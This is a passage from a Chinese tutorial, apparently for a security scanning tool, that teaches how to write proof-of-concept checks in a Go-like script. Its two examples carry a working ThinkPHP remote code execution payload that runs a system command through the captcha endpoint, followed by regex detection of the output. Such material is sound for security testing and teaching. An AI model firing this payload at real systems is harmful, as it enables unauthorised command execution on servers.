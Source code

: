 ```go
    println("found thinkphp vuls...")
    break
}
```

当然如果需要针对返回的数据包进行精细化处理，可以参考 [`poc` 辅助库中所有可用参数](/api-manual/api/poc)

### 使用 `http` 构造 PoC

如果一个 PoC 仅仅是特别基础的发送一个请求，根据返回的结果来判断是否存在漏洞，那么这个 PoC 的编写其实非常简单

```go
// 发送一个请求
rsp, err := http.Post(
    "http://127.0.0.1:8080/index.php?s=captcha",
    http.header("Content-Type", "application/x-www-form-urlencoded"),
    http.body(`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id`),
)
if err != nil {
    die(err)
}

// 调试工具，可以看到原始相应包是啥。
// http.show(rsp)

// 把原始相应包打印出来
rawPacket, err := http.dump(rsp)
if err != nil {
    die(err)
}

// 编写一个正则，来判断期望的结果是否产生
if re.Match(`((uid\=\d*)|(gid\=\d*)|(groups=\d*))`, rawPacket/*type: any*/) {
    println("found thinkphp vul!")
}
```

我们发现，上面的代码其实非常容易让人理解，使用 http 库发送了一个构造特定 Payload 的请求。

然后使用一个规则来检测漏洞。

### 使用 `fuzz` 构造 PoC

作为对比，我们使用 `fuzz` 模块来构建更容易让人理解的 PoC；

这个方法比 `http` 更好的是：**我们可以直接把数据包直接复制在代码中，减少大家的理解和调试成本**

```go
fReq, err := fuzz.HTTPRequest(`
POST /index.php?s=captcha HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
`)
if err != nil {
    die(err)
}

reqs, err := fReq.Exec()
if err != nil {
    die(err)
}

```